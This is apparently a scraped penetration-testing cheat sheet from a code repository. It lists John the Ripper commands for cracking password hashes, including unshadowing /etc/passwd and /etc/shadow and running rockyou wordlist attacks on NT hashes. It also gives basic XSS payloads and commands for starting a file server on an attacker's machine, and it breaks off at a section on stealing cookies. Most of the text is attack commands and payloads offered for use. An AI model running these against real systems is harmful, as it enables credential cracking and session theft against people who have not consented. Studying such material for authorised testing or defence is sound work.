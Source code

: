 <b>Show Already Cracked Passwords</b>

`john  --show passwd_and_shadow_hashes.john`

<b>Show Supported Formats in `john`</b>

`john --list=formats`

<b>Regular commands</b>

`john --wordlist=/usr/share/wordlists/rockyou.txt password_hashes.txt`

`john --wordlist=/usr/share/wordlists/rockyou.txt user_password_hashes.txt --format=NT`

<u>Notations</u>

```
-incremental ==> Use pure Bruteforce attack
                 [It require a lot of time to crack passwords]
--wordlist ==> Wordlist File to use [Dictionary Attacks]
--format ==> Type of hash to test for
             NT ==> For Windows hashdump
--list ==> list data according to need
-users:<username> ==> user of the password to crack
```

<b>Processing `/etc/shadow` and `/etc/passwd` file to john format</b>

`unshadow passwd shadow > passwd_and_shadow_hashes.john`

# <b><u>XSS Attacks [Cross-Site Scripting Attacks]</u></b>

<b>Only Works when website is not `HTTPOnly`</b>


## <u>XSS Scripts</u>

### <b>Basic XSS Payloads</b>

```
</b><img src=x onerror=alert(document.domain)></img><b>
</b><script>alert(document.domain)</script><b>
```

### <b>Open local File Server</b>

<b>Open local File server Using `PHP`</b>

`php -S 0.0.0.0:80`

<b>Open local File server Using `PHP`</b>

`python3 -m http.server 80`

### <b>Get Cookies As Request</b>

<b> Script Used in Attacker System for hosting
